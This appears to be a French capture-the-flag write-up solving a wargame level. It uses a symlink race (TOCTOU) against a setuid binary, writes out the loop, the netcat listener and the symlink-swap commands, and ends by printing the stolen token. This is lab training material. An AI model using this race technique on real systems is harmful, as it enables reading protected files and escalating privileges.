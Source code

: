 # Level 10

Home structure
```
$ ls -la
total 36
drwxrwx---+ 1 level10 level10   260 Jun 28 15:36 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
```
$./level10 file host
	sends file to host if you have access to it
```
L'executable nous demandes un fichier avec des accès dessus et une ip ?
```
./level10 token 127.0.0.1
You don't have access to token
./level10 /tmp/toto 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```
On a plus d'info sur l'ip, il essaye de se connecté à l'ip via le port 6969. On va donc setup un petit serveur
```
$ nc -l 6969 &
[1] 2086
$ ./level10 /tmp/toto 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. Hello
wrote file!
```
On recoit bien le contenu du fichier `/tmp/toto` qui est: `Hello`.

```
$ strace ./level10 /tmp/toto 127.0.0.1
...
access("/tmp/toto", R_OK)               = 0
write(1, "Connecting to 127.0.0.1:6969 .. ", 32Connecting to 127.0.0.1:6969 .. ) = 32
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
write(3, ".*( )*.\n", 8.*( )*.
)                = 8
write(1, "Connected!\n", 11Connected!
)            = 11
write(1, "Sending file .. ", 16Sending file .. )        = 16
open("/tmp/toto", O_RDONLY)             = 4
read(4, "Hello\n", 4096)                = 6
write(3, "Hello\n", 6Hello
)                  = 6
write(1, "wrote file!\n", 12wrote file!
)           = 12
```
Lors du strace de l'executable, on voit qu'il essaye d'`access` sur le fichier avec la permision `READ` avant de l'ouvrir et de se connecter. On pourrait peut être faire une [Race condition](https://en.wikipedia.org/wiki/Race_condition) ?

Donc pour ce faire, il faudrait lancer le program avec comme fichier `toto` dont on a les permissions de `read` puis sur la milisecond plus tard après l'execution d'`access` changer le fichier `toto` par un autre fichier dont on n'as pas la permission de lire comme le `token`. Pour ce faite on peut le faire grace au `softlink`.

Et pour avoir le plus de chance possible on va lancer le program à l'infini.

On lance `tmux` ou tous simplement 3 instance `ssh`.
- Une qui va executer le program à l'infini
- Une qui va juste listen sur le port `6969`
- Et la dernière qui va link sur un fichier puis attendre une milisecond et relink sur `token`.

```sh
# Instance 1
while true; do ./level10 tata 127.0.0.1; done

# Instance 2
nc -kl 6969

# Instance 3
ln -sf /dev/null tata; sleep 0.1; ln -sf token tata
```
Et sur l'instance 2 on recoit donc le contenu de token qui est le mot de passe de flag10. `woupa2yuojeeaaed06riuj63c`